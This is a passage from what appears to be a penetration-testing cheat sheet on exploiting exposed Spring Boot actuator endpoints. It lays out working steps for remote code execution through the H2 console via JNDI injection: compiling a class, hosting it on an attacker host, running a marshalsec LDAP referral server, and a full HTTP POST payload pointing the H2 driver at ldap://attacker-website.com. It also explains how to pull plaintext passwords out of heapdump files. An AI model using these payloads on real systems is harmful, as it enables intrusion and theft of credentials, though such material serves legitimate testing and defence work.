     ```bash
    javac -source 1.5 -target 1.5 JNDIObject.java
    ```

4. Host compiled `JNDIObject.class` at `http://attacker-website.com/`
5. Set up a LDAP service with [marshalsec](https://github.com/mbechler/marshalsec):

    ```bash
    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://attacker-website.com:80/#JNDIObject 1389
    ```

6. Trigger JNDI injection:

    ```http
    POST /h2-console/login.do?jsessionid=xxxxxx
    Host: vulnerable-website.com
    Content-Type: application/json
    Referer: http://vulnerable-website.com/h2-console/login.jsp?jsessionid=xxxxxx

    {
        "language": "en",
        "setting": "Generic+H2+(Embedded)",
        "name": "Generic+H2+(Embedded)",
        "driver": "javax.naming.InitialContext",
        "url": "ldap://attacker-website.com:1389/JNDIObject",
        "user": "",
        "password": ""
    }
    ```

References:
- [Spring Boot Vulnerability Exploit Check List: h2 database console JNDI RCE](https://github.com/LandGrey/SpringBootVulExploit#0x07h2-database-console-jndi-rce)

# heapdump

[heapdump](https://docs.spring.io/spring-boot/docs/2.4.0/actuator-api/htmlsingle/#heapdump) returns a hprof heap dump file that may contain sensitive data, such as `env` properties. To retrieve data from a prof heap dump use [Eclipse Memory Analyzer](https://www.eclipse.org/mat/downloads.php) tool, check [Find password plaintext in spring heapdump using MAT](https://landgrey.me/blog/16/).

References:
- [Spring Boot Vulnerability Exploit Check List: Obtain the plaintext of the password desensitized by the asterisk (method 4)](https://github.com/LandGrey/SpringBootVulExploit#0x06%E8%8E%B7%E5%8F%96%E8%A2%AB%E6%98%9F%E5%8F%B7%E8%84%B1%E6%95%8F%E7%9A%84%E5%AF%86%E7%A0%81%E7%9A%84%E6%98%8E%E6%96%87-%E6%96%B9%E6%B3%95%E5%9B%9B)

# jolokia

Exposes JMX beans over HTTP (when Jolokia is on the classpath, not available for WebFlux). Requires a dependency on `jolokia-core`.
